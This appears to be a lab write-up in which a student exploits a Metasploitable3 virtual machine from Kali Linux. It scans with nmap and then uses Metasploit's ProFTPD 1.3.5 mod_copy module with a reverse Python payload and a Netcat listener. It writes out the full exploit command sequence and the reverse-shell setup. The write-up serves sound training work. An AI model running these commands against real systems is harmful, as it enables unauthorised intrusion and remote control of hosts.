 
## 🔍 Step 1: Finding the IP Address of Metasploitable3

We used the `ifconfig` command inside the Metasploitable3 VM to find its IP address on the NAT network.

- **Discovered IP Address:** `10.0.2.7`

![Metasploitable3 IP Address](Screenshots/A-FindIP-Metasplot.png)


### 🔁 Step 2: Verifying Network Connectivity

Before launching any attacks, we verified that the attacker machine (Kali Linux) can reach the victim machine (Metasploitable3) using the `ping` command.

- **Target IP:** `10.0.2.7`
- **Result:** Successful ping with 0% packet loss



![Ping Test from Kali to Metasploitable](Screenshots/B-Connect.png)
### 🔎 Step 3: Scanning for Open Ports and Services

To discover vulnerable services running on the victim machine, we performed a full version scan using `nmap`:
![Metasploitable3 IP Address](Screenshots/C-FindPorts.png)


 ## 📍 Step 4: Exploiting ProFTPD 1.3.5 via `proftpd_modcopy_exec`

In this step, we exploit the vulnerable **ProFTPD 1.3.5** service running on Metasploitable3 using the `unix/ftp/proftpd_modcopy_exec` module in Metasploit. The goal is to get a **reverse shell** back to our Kali machine.

---
![Metasploitable3 IP Address](Screenshots/D-msfconsole.png)
### ✅ Summary of the Process

- **Target (Metasploitable3) IP:** `10.0.2.7`  
- **Attacker (Kali) IP:** `10.0.2.5`  
- **Vulnerable Service:** ProFTPD 1.3.5  
- **Exploit Module:** `exploit/unix/ftp/proftpd_modcopy_exec`  
- **Payload Used:** `cmd/unix/reverse_python`  
- **Writable Web Directory:** `/var/www/html`

---

### 🧰 Commands Used

```bash
# Start Metasploit
msfconsole

# Search and load the exploit module
search proftpd 1.3.5
use exploit/unix/ftp/proftpd_modcopy_exec

# Set RHOST and LHOST
set RHOST 10.0.2.7
set LHOST 10.0.2.5

# View available payloads and select one
show payloads
set payload cmd/unix/reverse_python

# Set the writable directory on the target
set SITEPATH /var/www/html

# (Optional) Prevent cleanup and handler issues
set AllowNoCleanup true
set DisablePayloadHandler true

# Run the exploit

exploit

## ✅ Step 5: Establishing a Reverse Shell to the Victim (End of Phase 1.1)


![Metasploitable3 IP Address](Screenshots/A-FindIP-Metasplot.png)



After successfully uploading the malicious PHP payload using the `mod_copy` exploit module in Metasploit, we triggered the payload by accessing it through the victim’s web server. This caused the victim (Metasploitable3) to connect back to our Kali machine, confirming a successful reverse shell.

### 🔊 Listener Setup (Attacker Side)



On Kali, we opened a Netcat listener on port `4444`:

```bash
nc -lvnp 4444


